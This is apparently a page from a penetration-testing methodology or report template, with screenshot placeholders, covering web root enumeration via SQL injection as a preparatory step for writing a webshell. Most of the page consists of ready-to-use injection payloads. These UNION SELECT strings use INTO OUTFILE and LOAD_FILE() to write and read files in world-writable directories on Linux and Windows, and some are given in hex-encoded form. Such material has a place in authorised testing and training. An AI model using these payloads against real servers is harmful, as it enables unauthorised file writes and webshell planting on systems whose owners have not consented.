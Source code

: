 ### 4.2.3 - Web Root Enumeration

Note: This step is necessary to find a destination to write a webshell.

#### 4.2.3.1 - Linux

- Using SQL Query statements especially when you execute the `LOAD_FILE()` function. It will disclose the PHP warning messages to find the absolute path of the web root directory. Keep an eye out them.

- Write a file in the common world writable directories. These two are the best candidates: `/tmp/` and `/dev/shm/`

```sql
' UNION SELECT 'test', NULL INTO OUTFILE '/tmp/file.txt'#

' UNION SELECT 1, LOAD_FILE('/tmp/file.txt')#

' UNION SELECT 'test', NULL INTO OUTFILE '/dev/shm/file.txt'#

' UNION SELECT 1, LOAD_FILE('/dev/shm/file.txt')#
```

**Hex encoded**

```sql
' UNION SELECT 0x74657374, NULL INTO OUTFILE '/dev/shm/file.txt'#

' UNION SELECT 1, LOAD_FILE('/dev/shm/file.txt')#
```

`<insert_screenshot from any of the SQLi commands for directory enumeration>`

`<insert screenshot any of the OS enumeration from above>`

#### 4.2.3.2 - Windows

- Using SQL Query statements will disclose the PHP warning messages to find the absolute path of the web root directory.


- When you execute the `LOAD_FILE()` function. Keep an eye out the php warning syntax messages. It'll provide you the absolute path to write php files.

```sql
' UNION SELECT 'test', NULL INTO OUTFILE 'C:\\Windows\\Temp\\file.txt'#

' UNION SELECT NULL, LOAD_FILE('C:\\Windows\\Temp\\file.txt')#
```

**Hex encoded**

```sql
' UNION SELECT 0x74657374, NULL INTO OUTFILE 'C:\\Windows\\Temp\\file.txt'#

' UNION SELECT 1, LOAD_FILE('C:\\Windows\\Temp\\file.txt')#
```

`<insert_screenshot from any of the SQLi commands for directory enumeration>`
